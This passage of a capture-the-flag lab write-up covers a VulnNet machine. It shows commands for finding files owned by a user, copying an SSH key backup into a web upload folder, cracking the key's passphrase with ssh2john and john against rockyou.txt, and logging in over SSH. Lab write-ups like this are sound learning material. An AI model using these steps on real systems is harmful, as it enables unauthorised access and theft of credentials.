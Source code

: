 > **This script is used to create a backup of the files in the /home/server-management/ Documents directory.**
> 

**But we can’t🥶**

```html
$ /var/opt/backupsrv.sh
/bin/sh: 4: /var/opt/backupsrv.sh: Permission denied
```

- So let’s find allowed file
    - `find / -type f -user server-management 2>/dev/null`
    - `/var/backups/ssh-backup.tar.gz` | let’s copy this file to our dir
    - `cp /var/backups/ssh-backup.tar.gz /var/www/html/actions/CB_BEATS_UPLOAD_DIR/ssh-backup.tar.gz`
- Then we download it! ⇒ [`http://broadcast.vulnnet.thm/actions/CB_BEATS_UPLOAD_DIR/`](http://broadcast.vulnnet.thm/actions/CB_BEATS_UPLOAD_DIR/)
- when we extract it, it will give us `id_rsa` file. seems intersting!

```html
┌──(nazu㉿Nazu)-[~/Desktop/CTF/THM-CTF/VulnNet]
└─$ ssh2john id_rsa > id_rsa.txt 
                                                                                                                                                                       
┌──(nazu㉿Nazu)-[~/Desktop/CTF/THM-CTF/VulnNet]
└─$ locate rockyou.txt          
/home/nazu/Desktop/Word-List/rockyou.txt
/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt.tar.gz
/usr/share/wordlists/rockyou.txt.gz

┌──(nazu㉿Nazu)-[~/Desktop/CTF/THM-CTF/VulnNet]
└─$ john --wordlist=/home/nazu/Desktop/Word-List/rockyou.txt id_rsa.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
oneTWO3gOyac     (id_rsa)     
1g 0:00:00:09 DONE (2023-01-27 13:21) 0.1049g/s 514941p/s 514941c/s 514941C/s one_0012..one98t7
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

### SSH Login with this password

```html
┌──(nazu㉿Nazu)-[~/Desktop/CTF/THM-CTF/VulnNet]
└─$ ssh -i id_rsa server-management@10.10.76.135
The authenticity of host '10.10.76.135 (10.10.76.135)' can't be established.
ED25519 key fingerprint is SHA256:GgnSIc02m6P4YfjO6UVJaykCDYShjpPCn/B4+fzh+4k.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:61: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.76.135' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-134-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

560 packages can be updated.
359 updates are security updates.
```